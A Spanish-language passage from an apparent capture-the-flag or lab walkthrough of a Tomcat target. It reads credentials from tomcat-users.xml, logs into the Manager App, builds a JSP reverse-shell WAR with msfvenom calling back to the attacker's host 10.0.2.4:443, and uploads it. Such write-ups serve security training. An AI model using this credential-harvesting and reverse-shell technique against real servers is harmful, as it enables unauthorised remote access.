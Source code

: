 Nos descomprime un archivo tomcat-users.xml que nos regala las credenciales

```
❯ cat tomcat-users.xml

[...tomcat-users.xml...]
<!--
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
        <role rolename="manager-gui"/>
        <role rolename="admin-gui"/>
        <user username="aquaMan" password="******M4n" roles="manager-gui,admin-gui"/>
</tomcat-users>
```
Entrando a la pagina de Manager App en tomcat
![](img/aqua1.png)
Una vez dentro podemos crear un archivo .WAR que nos realice una reverse shell hacia nuestra maquina.

```
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.2.4 LPORT=443 -f war -o revshell.war
```

Lo subimos en la pagina de tomcat, nos podemos en escucha y entablamos conexion.
![](img/aqua2.png)
